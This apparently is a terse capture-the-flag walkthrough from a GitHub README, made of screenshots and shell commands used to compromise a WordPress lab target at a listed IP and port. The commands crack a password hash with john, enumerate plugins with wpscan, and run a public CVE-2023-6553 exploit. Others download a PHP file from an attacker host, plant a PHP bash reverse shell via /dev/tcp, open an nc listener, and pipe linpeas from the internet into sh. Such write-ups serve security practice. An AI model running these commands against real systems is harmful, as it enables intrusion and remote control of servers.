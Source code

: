 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9f53dde2-8fda-4c59-80d5-d6b02a6086b7)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b8a594be-31ef-4467-91f7-fbaa33ad2067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/00806b5b-8a84-4cfc-88fc-22413357b290)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d2b41dd2-9edf-4593-b360-1f436cae93ee)

```
wpscan --url http://62.173.140.174:28580/ --enumerate ap --plugins-detection aggressive
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c687398-0fe3-43b0-b37e-e8588fe155fc)

https://github.com/Chocapikk/CVE-2023-6553
```
python exploit.py -u http://62.173.140.174:28580/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f23edae7-f8e4-41a6-ab3a-029afce66eca)
```
echo '<?php phpinfo(); ?>' > /var/www/html/test.php
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c66d94c1-de4b-4215-9ad9-3994e66440eb)
```
wget http://IP:1234/myrev.php 
[cat /var/www/html/](http://62.173.140.174:28580/wp-content/plugins/backup-backup/includes/myrev.php)
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
nc -lvnp 1234 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c492a62a-122a-4513-a8a0-b40b836af3b0)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/91ab5755-96d1-4f8c-b35c-c7c66bcfb5c3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2ee223bb-6ddb-4432-9ee3-4b3a83dae374)
```
nc localhost 1337
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f63d03aa-f8c0-432d-a33b-ad36ffad97fc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/43d4cfea-11ca-4e1d-831f-f6494626d3cb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6afbcaad-2e60-4847-8278-f2c9e524cfab)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ea6d2d6c-3fc5-4bd2-b53f-a833539a2443)




